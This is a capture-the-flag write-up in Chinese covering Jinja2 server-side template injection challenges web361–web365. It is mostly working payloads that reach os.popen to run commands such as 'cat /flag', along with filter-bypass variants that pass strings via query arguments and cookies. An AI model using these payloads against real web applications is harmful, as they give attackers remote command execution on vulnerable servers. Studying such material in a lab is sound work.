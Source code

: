 ## web361

没有任何过滤

payload

```
name={{().__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

## web362

payload

```
name={{x.__init__.__globals__['__builtins__'].eval('__import__("os").popen("cat /flag").read()')}}
```

## web363(过滤单双引号)

payload

通过获x1和x2两个参数，绕过单双引号过滤

```
{{x.__init__.__globals__[request.args.x1].eval(request.args.x2)}}&x1=__builtins__&x2=__import__('os').popen('cat /flag').read() 
```

```
{{url_for.__globals__[request.args.x1].eval(request.args.x2)}}&x1=__builtins__&x2=__import__('os').popen('cat /flag').read() 
```

## web364(过滤了args)

payload

```
name={{url_for.__globals__[request.cookies.x1].eval(request.cookies.x2)}}
```

```
Cookie传参：x2=__import__('os').popen('ls /').read();x1=__builtins__
```

![image-20240204133223555](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240204133223555.png)

## web365(过滤了[])

增加过滤了[]，可以通过`__getitem__`魔术方法代替[]

> `__getitem__()`
>   调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是`a.__getitem__('b')`
